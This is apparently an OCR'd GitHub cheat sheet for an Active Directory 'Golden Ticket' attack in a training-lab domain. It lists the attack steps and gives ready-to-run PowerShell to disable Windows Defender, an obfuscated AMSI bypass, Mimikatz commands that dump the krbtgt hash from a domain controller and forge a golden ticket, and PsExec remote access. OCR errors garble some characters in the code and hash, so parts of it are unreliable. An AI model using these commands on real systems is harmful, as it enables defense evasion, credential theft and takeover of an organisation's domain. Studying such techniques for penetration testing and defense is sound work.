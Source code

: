 # Golden Ticket

## Methodology/Steps
> 1. Get a Powershell session as a **"domain admin"** using **"Over pass the hash"** attack
> 2. Create a **New-PSSession** attaching to the **"domain controller"**
> 3. Enter the new session using **Enter-PSSession** 
> 4. Bypass the *AMSI* 
> 5. Exit
> 6. Load **Mimikatz.ps1** on the new session using **Invoke-command**
> 7. Enter the new session using **Enter-PSSession** *again*
> 8. Now we can execute mimikatz on the DC
> 9. Keep note of **krbtgt** hash
> 10. Now go to any **"non domain admin"** account
> 11. Load **Mimikats.ps1** 
> 12. Now we can create a ticket using the DC **krbtgt** hash 
> 13. Now we can access any service on the DC; Example **`ls \\dc-corp\C$`** or 
>     ```powershell
>     PsExec64.exe \\test.local -u Domain\user -p Passw0rd! cmd
>     ```
>     

## Disable Defender 
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

## AMSI bypass
```powershell
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{O}"-F'F', 'rE' ) ) 3; ( GeT-VariaBle ( "1Q2U" + "zX" )  -VaL_s+)."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{@}{5}" -f'Util', 'A', 'Amsi','.Management.', 'utomation.','s', 'System' ))."g`etf`iE1D"( ( "{O}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{O}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )
```

## Execute mimikatz on DC as DA to get krbtgt hash
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

## Create a ticket on any machine [ "pass the ticket" attack]
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /krbtgt:a9b30e5bO0dc865eadcea941le4ade72d /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

## List Kerberos services available
```powershell
klist
```

## To use the DCSync feature for getting krbtg hash execute the below command with DA privileges
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```